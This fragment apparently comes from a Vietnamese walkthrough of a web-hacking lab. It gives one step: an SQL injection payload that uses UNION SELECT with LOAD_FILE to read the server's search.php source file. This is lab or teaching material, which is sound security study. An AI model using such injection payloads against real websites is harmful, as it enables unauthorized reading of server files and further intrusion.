 ![](images/12.png)

Chúng ta sẽ đọc mã nguồn của trang web:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```
